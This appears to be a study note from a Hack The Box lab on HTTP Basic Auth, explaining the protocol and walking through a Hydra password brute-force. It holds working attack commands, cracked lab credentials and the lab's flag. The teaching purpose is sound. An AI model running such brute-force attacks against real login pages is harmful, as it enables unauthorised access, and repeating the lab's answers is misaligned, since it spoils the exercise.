 ```yaml
---
sticker: emoji//1f409
---
```

Web applications often employ authentication mechanisms to protect sensitive data and functionalities. Basic HTTP Authentication, or simply `Basic Auth`, is a rudimentary yet common method for securing resources on the web. Though easy to implement, its inherent security vulnerabilities make it a frequent target for brute-force attacks.

In essence, Basic Auth is a challenge-response protocol where a web server demands user credentials before granting access to protected resources. The process begins when a user attempts to access a restricted area. The server responds with a `401 Unauthorized` status and a `WWW-Authenticate` header prompting the user's browser to present a login dialog.

Once the user provides their username and password, the browser concatenates them into a single string, separated by a colon. This string is then encoded using Base64 and included in the `Authorization` header of subsequent requests, following the format `Basic <encoded_credentials>`. The server decodes the credentials, verifies them against its database, and grants or denies access accordingly.

For example, the headers for Basic Auth in a HTTP GET request would look like:

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

## Exploiting Basic Auth with Hydra

**To follow along, start the target system via the question section at the bottom of the page.**

We will use the `http-get` hydra service to brute force the basic authentication target.

In this scenario, the spawned target instance employs Basic HTTP Authentication. We already know the username is `basic-auth-user`. Since we know the username, we can simplify the Hydra command and focus solely on brute-forcing the password. Here's the command we'll use:

```shell-session
# Download wordlist if needed
smoothment@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
smoothment@htb[/htb]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81

...
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-get://127.0.0.1:81/
[81][http-get] host: 127.0.0.1   login: basic-auth-user   password: ...
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 16:04:32
```

Let's break down the command:

- `-l basic-auth-user`: This specifies that the username for the login attempt is 'basic-auth-user'.
- `-P 2023-200_most_used_passwords.txt`: This indicates that Hydra should use the password list contained in the file '2023-200_most_used_passwords.txt' for its brute-force attack.
- `127.0.0.1`: This is the target IP address, in this case, the local machine (localhost).
- `http-get /`: This tells Hydra that the target service is an HTTP server and the attack should be performed using HTTP GET requests to the root path ('/').
- `-s 81`: This overrides the default port for the HTTP service and sets it to 81.

Upon execution, Hydra will systematically attempt each password from the `2023-200_most_used_passwords.txt` file against the specified resource. Eventually it will return the correct password for `basic-auth-user`, which you can use to login to the website and retrieve the flag.

# Question
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250213141136.png)

We can use the following command:

```
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt IP http-get / -s PORT -t 40
```

We get the following output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:15:11
[DATA] max 40 tasks per 1 server, overall 40 tasks, 200 login tries (l:1/p:200), ~5 tries per task
[DATA] attacking http-get://83.136.253.28:31818/
[31818][http-get] host: 83.136.253.28   login: basic-auth-user   password: Password@123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-13 20:15:13
```

Got credentials:

```ad-note
`basic-auth-user`:`Password@123`
```

If we log in, we can see the flag:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250213151644.png)

Flag is:

```
HTB{th1s_1s_4_f4k3_fl4g}
```